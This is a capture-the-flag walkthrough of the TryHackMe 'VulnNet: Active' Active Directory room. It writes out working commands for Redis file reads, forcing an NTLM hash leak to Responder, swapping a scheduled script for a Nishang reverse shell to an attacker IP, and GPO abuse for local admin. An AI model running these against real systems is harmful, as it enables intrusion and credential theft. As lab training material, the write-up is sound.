 ```yaml
---
title: "Vulnet active tryhackme"
date:  2023-04-12 15:04:23
categories: [active directory]
tags: [active directory]
---
```



**Enumeration**

This room on tryhackme is all about active directory and domain controller. So let's begin our machine with Nmap scanning.

![enum](https://prabinsigdel.com.np/images/enum.jpg)

Every domain controller services are up and running which is part of AD DC. But `Kerberos` is not running so we can not [AS-REP](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/) roasting the usernames to check if they are valid.
I ran the Nmap to scan all ports.

![enum](https://prabinsigdel.com.np/images/nmap_all.jpg)

Here many ports are open so it is always beneficial to check for all ports. RPC and LDAP services are also running, Smb is a very good option to start with and I did the same.

**SMB port 445 enumeration**

But unfortunately, we got access denied for every possible command of `smbclient, smbmap, and netexec` to enumerate users' share on smb port 445.
It confirms that no guest and a null session are allowed.

**Redis exploitation**

But my eyes got on to port 6379 (Redis). I was unaware of this but [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) are always a good option to search for anything.
Redis is a No-sql database that stores information alongside key-value called keyspaces. The version of Redis key-value store 2.8.2402 is vulnerable to ssrf + CRLF.

![redis](https://prabinsigdel.com.np/images/redis.jpg)

Here we can exploit Redis via ssrf, but we must know the path to the windows server files
`redis-cli -h 10.10.245.19 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\users.txt')" 0`

![redis](https://prabinsigdel.com.np/images/redis_exp.jpg)

we got the users.txt flag. If we can get any files why not exploit further to get Authenticated user's NTLM hash? If we forge redis to connect back to our attacking machine, maybe users' hashes will be exposed.
I set up the responder from impacket, when users from the Redis server try to connect to our machine responder will log the hashes.

`sudo responder -I 10.9.0.31`
`redis-cli -h 10.10.245.19 eval "dofile('//10.9.0.31/test')" 0`

![responder](https://prabinsigdel.com.np/images/responder.jpg)
Since we got the user enterprise-security hash, we cracked with john the ripper and got the password.

**SMB port 445 enumerations 2nd round**

We have now a username and password, so we can enumerate allowed shares on smbserver. I tried to log into enterprise-Share on smb and successfully logged in.
`smbmap -H 10.10.155.156 -u enterprise-security -p pass`

![smbmap](https://prabinsigdel.com.np/images/smbmap.jpg)

`smbclient //10.10.155.156/enterprise-share -U 'enterprise-security' pass`

![smbclient](https://prabinsigdel.com.np/images/smbclient.jpg)

There is a Powershell script scheduled to run, PurgeIrrelevantData_1826.ps1 with content.
`rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue`

Maybe we can replace this script with a reverse shell. We do have written permission for this share.

**Initial foothold**

We use [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell to replace PurgeIrrelevantData_1826.ps1 and put it on the smb server overriding the same file and setting up Netcat listener to catch the shell.
Add this line to the bottom of the script and wait for netcat to catch the shell.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.9.0.31 -Port 4444`

`nc -lvnp 4444`

![shell](https://prabinsigdel.com.np/images/shell.jpg)

Finally, we got reverse shell as enterprise security for the windows server.

**Privilege Escalation**

When I get the foothold on the machine, I always start with winPEAS.exe and it does give me some useful information which is SeImpersonatePrivilege.
I collect domain info with bloodhound-python and upload it to the bloodhound for analyzing users, groups, and domains.
![bloodhound](https://prabinsigdel.com.np/images/bloodhound.jpg)

Here is the shortest path to the admin where we will be abusing one of the `GPO(group policy object)` on which we can edit users' permission, local groups, memberships, and computer tasks.
We use `SharpGPOAbuse.exe` to escalate our privilege.

`.\SharpGPOAbuse.Exe AddComputerTask TaskName "babbadeckl_privesc" 
Author vulnnet\administrator Command "cmd.exe" Arguments "/c net localgroup administrators enterprise-security /add" GPOName "SECURITY-POL-VN"`

`gpupdate \force`

We can access admin via smbclient.
`smbclient //10.10.56.175/C$ -U 'enterprise-security' sand_………..`